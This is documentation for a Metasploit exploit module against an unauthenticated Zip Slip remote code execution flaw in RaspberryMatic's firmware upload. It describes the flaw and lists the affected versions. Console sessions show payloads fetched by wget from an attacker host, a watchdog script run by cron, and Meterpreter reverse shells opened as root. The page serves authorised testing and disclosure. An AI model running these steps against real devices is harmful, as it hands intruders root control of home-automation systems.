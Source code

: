 ## Vulnerable Application
RaspberryMatic / OCCU contains a unauthenticated remote code execution (RCE) vulnerability, caused by multiple issues within
the Java based HMIPServer.jar component. The webui allows for Firmware uploads which can be reached through the URL
`/pages/jpages/system/DeviceFirmware/addFirmware`.
This allows an unauthenticated attacker to upload a malicious .tgz archive to the server, which will be automatically
extracted without any further checks. As this entry can contain ../sequences, it is possible to break out of the predefined
temp directory and write files to other locations outside this path.

This vulnerability is commonly known as the Zip Slip vulnerability and can be used to overwrite arbitrary files on the main
filesystem. It is therefore possible to overwrite the watchdog script with a malicious payload in `/usr/local/addons/mediola/bin/`,
which will be executed every five minutes through a cron job where attackers can gain remote code execution as root user,
allowing a full system compromise.

RaspberryMatic versions <= `3.73.9.20240130` are vulnerable.

The following releases were tested.

**RaspberryMatic Releases:**
* RaspberryMatic v3.73.9 (OVA image)
* RaspberryMatic v3.65.8 (Raspberry Pi4 Model B image)

## Installation steps to install RaspberryMatic OVA image
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download [RaspberryMatic OVA](https://github.com/jens-maus/RaspberryMatic/releases/tag/3.73.9.20240130).
* Install the OVA image in your virtualization engine.
* When installed, configure the VM appliance to your needs using the menu options via the `webui`.
* Boot up the VM and should be able to access the RaspberryMatic appliance via the `webui` via `http://your_ip/`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/raspberrymatic_unauth_rce_cve_2024_24578`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command, 1=Linux Dropper (ARM), 2=Linux Dropper (x86_64)>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options defined.

## Scenarios
### RaspberryMatic OVA appliance - Unix/Linux Command target
```msf
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_SRVHOST 192.168.201.8
FETCH_SRVHOST => 192.168.201.8
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.73.9
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Uploading sT2s4fChKUZ.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Restoring original watchdog script.
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:51220) at 2025-01-28 18:00:01 +0000

meterpreter > sysinfo
Computer     : 192.168.201.6
OS           :  (Linux 6.1.74)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```
### RaspberryMatic Pi4 Model B compute board - Linux Dropper (ARM) Command target
```msf
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set target 1
target => 1
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.10:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.65.8
[*] Executing Linux Dropper (ARM support) for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/4h2lPduH4
[*] Uploading Aarv1CEc.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Client 192.168.201.10 (Wget/1.21.3) requested /4h2lPduH4
[*] Sending payload to 192.168.201.10 (Wget/1.21.3)
[*] Restoring original watchdog script.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.10:34866) at 2025-01-28 18:10:01 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           :  (Linux 5.15.56)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```
### RaspberryMatic OVA appliance - Linux Dropper (x86_64) Command target
```msf
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set target 2
target => 2
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.73.9
[*] Executing Linux Dropper (x86_64 support) for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/8OlmzeRoa
[*] Uploading kovy0xZ9M.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Client 192.168.201.6 (Wget/1.21.4) requested /8OlmzeRoa
[*] Sending payload to 192.168.201.6 (Wget/1.21.4)
[*] Restoring original watchdog script.
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.6:55920) at 2025-01-30 22:25:02 +0000
[*] Server stopped.

meterpreter >
```
## Limitations
You have to wait maximum five minutes for a session to allow `cron` to run the malicious watchdog script
containing the payload. Just be patient and wait for the magic to happen ;-)
